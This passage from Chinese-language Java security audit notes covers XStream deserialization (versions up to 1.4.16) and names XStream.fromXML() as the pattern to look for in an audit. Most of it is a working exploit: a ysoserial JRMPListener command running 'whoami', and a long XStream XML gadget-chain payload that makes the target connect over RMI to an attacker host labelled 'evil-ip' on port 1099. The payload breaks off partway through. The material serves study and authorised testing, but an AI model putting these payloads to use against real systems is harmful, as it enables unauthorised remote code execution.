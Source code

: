 ![](/dmsj_img/Pasted%20image%2020241224151127.png)

![](/dmsj_img/Pasted%20image%2020241224151144.png)



## 6、其他

### XStream

```
<= 1.4.16

这个组件是用来解析xml文件的，可以理解为将xml文件反序列化为对象，和fastjson很像，在反序列化时会调用对象的readObject方法，找到合适的链子即可RCE，目前使用的较多的是JDNI的那条，审计关键词：
XStream.fromXML()
```

poc，修改evil-ip：

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "whoami"  //无回显哦，直接打，修改payload直接看看监听也可


<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
```